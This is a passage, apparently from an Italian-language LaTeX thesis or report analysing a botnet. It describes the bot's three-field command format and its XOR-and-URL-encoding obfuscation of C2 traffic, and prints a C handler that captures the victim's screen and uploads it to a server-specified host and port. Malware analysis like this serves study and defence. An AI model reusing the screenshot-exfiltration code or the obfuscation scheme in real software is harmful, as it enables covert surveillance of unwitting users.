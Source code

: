\medskip
Un comando è composto di tre campi: identificativo, tipo e dati.
Il campo dei dati è utilizzato per passare parametri aggiuntivi al bot o per l'inoltro di risultati di operazioni al server.

Nella sezione di codice \ref{listing-uboat1} si può osservare un esempio di handler dei comandi. L'handler in esame è  responsabile di inoltrare uno screenshot al server.  In primo luogo analizza i dati aggiuntivi passati come parametro per estrapolare la porta a cui è associato il processo incaricato di gestire gli upload. In seguito viene eseguito lo screenshot e inoltrato al server sulla porta specificata. Infine invia l'esito del task al server con un ulteriore comando.





\medskip

L'inoltro di un comando è preceduto da una fase di offuscamento di seguito descritta: 
\begin{enumerate}
    \item Generazione di una chiave di 32 Byte generata con algoritmo pseudocasuale;
    \item Il comando, compreso dei tre campi precedentemente descritti, viene combinato con la chiave attraverso XOR.
    \item Il comando e la chiave vengono codificati in Url \textit{charset}.
    \item La chiave viene inserita negli header della richiesta POST mentre il comando nel \textit{body}.
\end{enumerate}

\lstset{numbers=left,tabsize=2}
\begin{lstlisting}[float,floatplacement=H,caption={Esempio di handler di comandi.},captionpos=b,label={listing-uboat1}]{numbers=left}
void ScreenshotParser(int commandId, int commandType, char* data)
{
	int len;
	char** splitResults = SplitString(data, "@", &len, false);
	unsigned short port = (unsigned short)strtoul(splitResults[1], NULL, 0);

	int length;
	char* scr = CaptureScreenshot(&length);

	bool result = SendScreenshot(splitResults[0], port, scr, length,
            GetBotId());
	FreeSplitStringBuffer(splitResults, len);

	char* command = CreateCommand(commandId, commandType,
            result ? "Success" : "Fail", result ? 7 : 4);
	FreeScreenshot(scr);
	char* response = SendCommandWithDecodedResponse(command);
	FreeDecodedResponse(response);
}
\end{lstlisting}

